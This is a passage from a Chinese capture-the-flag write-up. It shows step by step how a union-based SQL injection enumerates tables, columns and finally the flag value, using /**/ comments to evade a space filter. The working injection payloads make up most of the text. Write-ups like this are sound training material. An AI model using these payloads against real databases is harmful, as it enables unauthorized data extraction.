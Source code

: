 成功出库名：

![image-20210723164042542](https://{{site.PicturesLinks_Domain}}/images/2021/07/23/20210723164042.png)

2、枚举表名，构造语句为：

```mysql
-1/**/union/**/select/**/1,group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema='sqli'
```

成功得到表，如图：

![image-20210723164153610](https://{{site.PicturesLinks_Domain}}/images/2021/07/23/20210723164153.png)

3、根据表名枚举字段名，构造语句：

```mysql
-1/**/union/**/select/**/1,group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name='ptmgnbdssq'
```

成功得到字段名：

![image-20210723164358222](https://{{site.PicturesLinks_Domain}}/images/2021/07/23/20210723164358.png)4、根据字段名枚举字段值，构造语句为：

```mysql
-1/**/union/**/select/**/1,group_concat(qfbfzkcbul)/**/from/**/sqli.ptmgnbdssq
```

成功得到flag：

![image-20210723164516719](https://{{site.PicturesLinks_Domain}}/images/2021/07/23/20210723164516.png)